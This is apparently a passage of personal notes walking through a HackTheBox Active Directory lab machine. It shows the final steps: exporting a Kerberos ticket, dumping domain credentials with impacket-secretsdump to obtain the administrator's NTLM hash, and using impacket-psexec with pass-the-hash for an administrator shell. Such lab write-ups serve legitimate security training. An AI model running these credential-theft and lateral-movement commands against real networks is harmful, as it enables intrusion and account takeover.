 ```
export KRB5CCNAME=ticket.ccache
```

#### impacket-secretsdump

```
impacket-secretsdump -k -no-pass g0.flight.htb
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250609201409.png]]
- wooohooooo got admin's ntlm hash

#### impacket-psexec

```
impacket-psexec administrator@10.10.11.187 -hashes <HASH>:<HASH>
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250609201552.png]]

⭐got root⭐
